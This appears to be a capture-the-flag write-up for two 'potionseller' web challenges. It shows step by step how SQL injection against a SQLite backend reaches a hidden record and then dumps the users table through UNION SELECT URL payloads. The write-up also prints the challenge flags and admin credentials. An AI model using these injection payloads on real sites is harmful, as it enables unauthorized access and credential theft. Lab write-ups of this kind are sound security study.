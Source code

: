 ### SQLI

## potionseller

We are welcomed with a website on which we can click and get more information with every potion exept one the "My strongest potion"

![1.png](asset/1.png)
![2.png](asset/2.png)

If we check if there is anything special when we take potions one by one we can see that a "longdescription" section appears

![3.png](asset/3.png)
However when we check out the same thing for potion 4 namely "My strongest potion" we receive and error telling us "That potion is too strong for you, traveller!"

So if we try to get the first id that is higher than 3 then we should get the potion id 4

https://potionseller.secu-web.blackfoot.dev/potions/id and id > 3

![4.png](asset/4.png)

>[!IMPORTANT]
BFS{I_n33d_y0uR_5tr0ng3St_p07ion!}

## Potionseller2

we can see that there is a admin panel that appeared so we will need to look for the admin's username/password

once again we can see that the /potions/ work so we will work from there

/potions/0 work

/potions/0) raise a error near ")" meaning that the code has a closing ")" so we need to comment it

/potions/0)-- work

![5.png](asset/5.png)

By checking out the sqlite_master we can see each table one by one

![6.png](asset/6.png)
Nothing interesting here so from there we will keep going and look for another table

https://potionseller2.secu-web.blackfoot.dev/potions/NULL) union select name, sql, NULL,NULL,NULL,NULL from sqlite_master limit 1 offset 2 --

![7.png](asset/7.png)

https://potionseller2.secu-web.blackfoot.dev/potions/NULL) union select *, null, null, null from users--

get username + hashed pass (desc)
![8.png](asset/8.png)
![8.png](asset/9.png)

### login: **potionSellerRoot**

### Password: **potions**
We can now connect to the admin panel

>[!IMPORTANT]
> BFS{Y4Y_f0R_5qLi!}
